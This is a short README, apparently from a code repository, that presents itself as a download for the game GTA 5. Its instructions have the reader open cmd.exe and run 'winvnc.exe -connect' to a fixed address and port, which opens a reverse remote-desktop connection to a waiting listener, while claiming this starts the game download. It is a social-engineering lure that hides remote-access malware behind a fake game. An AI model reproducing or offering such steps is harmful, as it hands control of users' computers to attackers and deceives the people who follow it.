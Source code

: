 # Gta-5
download the file extract it
open cmd.exe on that file
type this winvnc.exe -connect 192.168.0.110:4444
enter your download started
